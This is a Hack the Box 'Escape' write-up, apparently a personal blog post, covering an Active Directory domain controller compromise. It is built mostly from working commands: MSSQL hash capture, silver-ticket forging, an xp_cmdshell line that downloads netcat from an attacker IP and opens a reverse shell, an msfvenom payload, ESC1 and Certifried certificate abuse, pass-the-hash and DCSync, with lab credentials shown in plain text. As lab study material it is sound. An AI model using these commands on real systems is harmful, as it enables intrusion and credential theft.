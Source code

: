 ```yaml
---
layout: post
title:  "Hack the Box - Escape"
category: "Writeups"
---
```


## Enumeration
- Based on the ports, we are dealing with a domain controller with MSSQL running
- Domain sequel.htb, dc : dc.sequel.htb

# SMB

```bash
impacket-smbclient sequel.htb/anonymous@sequel.htb -no-pass -dc-ip 10.129.25.121
```
- need to figure out CME but anonymous logon lets us into the Public share to download a SQL Server Procedure pdf
- User -> Ryan ? Tom ? Brandon ?
- Accessing SQL db from non-domain machine:

```windows
cmdkey /add:"servername.sequel.htb" /user:"sequel\username" /pass:"password"
```
- We find some basic creds for new hires - PublicUser : GuestUserCantWrite1

# MSSQL
```bash
impacket-mssqlclient sequel.htb/PublicUser@dc.sequel.htb -dc-ip 10.129.25.121
```

- using the hacktricks guide, we can use responder to connect back to our machine and capture a hash - https://book.hacktricks.xyz/network-services-pentesting/pentesting-mssql-microsoft-sql-server#manual

```bash
exec master.dbo.xp_dirtree '\\10.10.14.91\share'
```

![sql_sequel_responder.png](/images/HTB/Escape/sql_sequel_responder.png)

```
sql_svc : REGGIE1234ronnie
```

- We have a set of creds now!

## Enumeration as sql_svc
# AD Users

```bash
impacket-GetADUsers 'sequel.htb/sql_svc' -all -debug -dc-ip 10.129.25.121
```

```bash
Administrator
Guest
krbtgt
Tom.Henn
Brandon.Brown
Ryan.Cooper
sql_svc
James.Roberts
Nicole.Thompson
```

- Next step -> silver ticket? -> xp_cmd ? 

# Silver Ticket
- First we need to get the domain sid

```bash
impacket-lookupsid sequel.htb/sql_svc:REGGIE1234ronnie@10.129.25.254 -domain-sids
```

- Generate the silver ticket

```bash
impacket-ticketer -spn sql_svc/dc.sequel.htb -domain sequel.htb -domain-sid 'S-1-5-21-4078382237-1492182817-2568127209' -nthash '1443EC19DA4DAC4FFC953BCA1B57B4CF' -debug -dc-ip 10.129.25.254 Administrator
```

- Log into the MSSQL instance
```bash
KRB5CCNAME=Administrator.ccache impacket-mssqlclient sequel.htb/Administrator@dc.sequel.htb -no-pass -k -debug
```
![mssql_admin_login.png](/images/HTB/Escape/mssql_admin_login.png)

- DO NOT FORGET TO SYNC TIME FOR KERBEROS

```bash
sudo ntpdate <dc ip>
```
- There was nothing we could find in the db so we can enable xp_cmdshell and get a reverse shell

- Executing commands on the SQL instance

```bash
xp_cmdshell powershell.exe -Command Invoke-WebRequest -Uri "http://10.10.14.3:9001/nc64.exe" -OutFile "C:\Users\sql_svc\Desktop\nc.exe"; C:\Users\sql_svc\Desktop\nc.exe -e cmd 10.10.14.3 4444


xp_cmdshell powershell.exe -Command INvoke-WebRequest -Uri "http://10.10.14.4:9001/file.exe" -OutFile "C:\Users\sql_svc\Desktop\file.exe"; C:\Users\sql_svc\Desktop\file.exe
```
![shell_as_sql_svc.png](/images/HTB/Escape/shell_as_sql_svc.png)

- Lets try to get a stable shell with msfvenom

    - Generate reverse shell

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.4 LPORT=1234 -f exe -o file.exe
```

# Enum as sql_svc on DC
- We find another user Ryan.Cooper
- We can do standard PS enum and find groups -> Remote Management Users Group

## AD CS
- We can find some interesting templates with certipy

```bash
 python3 ~/hacking-tools/Certipy/certipy/entry.py find  -dc-ip 10.10.11.202 -target-ip 10.10.11.202 -ns 10.10.11.202 -u 'sql_svc' -p 'REGGIE1234ronnie' -debug
```

- Some templates of interest - Workstation, Machine
- [Might be the route?](https://medium.com/@shaunwhorton/certifried-bloodhound-active-directory-certificate-services-abuse-f28850ffefc9)

## More Enumeration
- We might still need to be Ryan.Cooper
- Checking the SQLServer (in root of C: drive) logs we can find Ryan's pw when trying to log in!

```text
Ryan.Cooper : NuclearMosquito3
```


## Enum as Ryan.Cooper
- Since we know AD CS is running, we can enum templates

```bash
python3 ~/hacking-tools/Certipy/certipy/entry.py find  -dc-ip 10.10.11.202 -target-ip 10.10.11.202 -ns 10.10.11.202 -u 'Ryan.Cooper' -p 'NuclearMosquito3' -debug -vulnerable
```

- Looking at the template, we find the UserAuthentication template is vulnerable to ESC1
![ESC1.png](/images/HTB/Escape/ESC1.png)


```bash
python3 ~/hacking-tools/Certipy/certipy/entry.py req -username Ryan.Cooper@sequel.htb -password 'NuclearMosquito3' -ca sequel-DC-CA -target dc.sequel.htb -template UserAuthentication -upn Administrator@sequel.htb -ns 10.10.11.202 -timeout 5
```

![admin_pfx.png](/images/HTB/Escape/admin_pfx.png)
- Now we can authenticate to the domain using this pfx

```bash
python3 ~/hacking-tools/Certipy/certipy/entry.py auth -pfx ./administrator.pfx -dc-ip 10.10.11.202
```
![pfx_to_tgt_admin.png](/images/HTB/Escape/pfx_to_tgt_admin.png)

```text
Administrator : aad3b435b51404eeaad3b435b51404ee:a52f78e4c751e5f5e17e1e9f3e58f4ee
```
- Log into the DC

```bash
impacket-wmiexec 'sequel.htb/administrator@10.10.11.202' -shell-type powershell -dc-ip 10.10.11.202 -hashes 'aad3b435b51404eeaad3b435b51404ee:a52f78e4c751e5f5e17e1e9f3e58f4ee'
```
![proof_of_admin_login.png](/images/HTB/Escape/proof_of_admin_login.png)


- Secretsdump

![secretsdump.png](/images/HTB/Escape/secretsdump.png)

## Another Route
# Certifried - CVE 2022-26923
- Following the article above, we can take advantage of the certifried issue but first we need to change the machine account quota on the DC
- [Link to article](https://medium.com/@shaunwhorton/certifried-bloodhound-active-directory-certificate-services-abuse-f28850ffefc9)

```powershell-session
Set-ADDomain -Identity sequel.htb -Replace @{"ms-DS-MachineAccountQuota"="5"}

Get-ADObject -Identity ((Get-ADDomain).distinguishedName) -Properties ms-DS-MachineAccountQuota

```

- Now if we follow the steps in the article, we can follow through on the exploit

- Add the new machine

```bash
python3 ~/hacking-tools/Certipy/certipy/entry.py account create -dc-ip 10.10.11.202 -u 'Ryan.Cooper' -p 'NuclearMosquito3' -user turco -dns 'dc.sequel.htb' 
```

- Get the pfx

```bash
python3 ~/hacking-tools/Certipy/certipy/entry.py req -dc-ip 10.10.11.202 -u 'turco$' -p 'qlM6YVfBTr2rJ0Br' -dns 'dc.sequel.htb' -template Machine -ca sequel-DC-CA 
```
![certifried_pfx.png](/images/HTB/Escape/certifried_pfx.png)

- Now we auth to the domain and get the tgt + pw hash

```bash
python3 ~/hacking-tools/Certipy/certipy/entry.py auth -dc-ip 10.10.11.202 -pfx ./dc.pfx -timeout 3
```
![certifried_auth.png](/images/HTB/Escape/certifried_auth.png)

- With the hash, we can perform a dcsync

![certifried_secretsdump.png](/images/HTB/Escape/certifried_secretsdump.png)